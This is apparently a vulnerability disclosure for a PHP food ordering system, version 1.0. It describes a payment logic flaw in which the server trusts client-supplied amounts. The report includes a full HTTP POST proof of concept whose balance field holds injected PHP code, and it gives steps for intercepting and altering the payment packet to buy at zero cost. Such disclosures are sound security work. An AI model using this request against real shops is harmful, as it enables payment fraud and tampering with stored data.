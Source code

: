 ##The Food order management system has a payment logic vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/place-order.php

## Description:
Food Ordering Management 1.0 is vulnerable to an unrestricted amount modification logic vulnerability with tital parameter in /foms/routers/place-order.php.The payment data package contains a lot of sensitive information (such as amount, order, user ID), and a malicious attacker can exploit this vulnerability to modify the sensitive information in the server database at will.

Status: CRITICAL

POC
```
POST /foms/routers/order-router.php HTTP/1.1
Host: localhost:8088
Content-Length: 158
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8088/foms/confirm-order.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hlodrr0cq84ndg4raumb7hpcla
Connection: close

1=4&2=5&3=5&payment_type=Wallet&address=riehf1234562131241&description=1234567890&balance=%3C%3Fphp+echo+%28%24balance-%24total%29%3B%3F%3E&total=3084&action=
```
##steps

1、Create an example: The user enters the order page to generate an order
![5ced3caf76cce98927cfa4f14e0a842](https://github.com/user-attachments/assets/4e7c683f-14b1-4923-aecb-6df60ca19ce9)

2、Fill in the order details correctly, otherwise the creation will fail
![d0b91603cc7936bb4e74f619fe18e6d](https://github.com/user-attachments/assets/4d7e6b47-c713-403e-beae-a15d7c7fa858)

3、Submit the order and grab the packet
![7e18db6e1161b60aa0cf5ae43692188](https://github.com/user-attachments/assets/caf37f07-6950-4c16-9404-bc5d5248d480)
![d04c19e34cf052b5165b3e7b9549c40](https://github.com/user-attachments/assets/b51245b1-d9fc-4ec6-ab4e-3d22931a0e8a)


4、Purchase with zero fee by modifying the amount in the payment package
![d2c264eb83deca3a7fad34397b3cdf4](https://github.com/user-attachments/assets/a6ffce4d-85bd-4527-bb87-4a7adcb2a542)
![f5e314c133e74089f5298e7f98b533b](https://github.com/user-attachments/assets/81c5c6da-b2b4-4753-9927-2957d279e878)










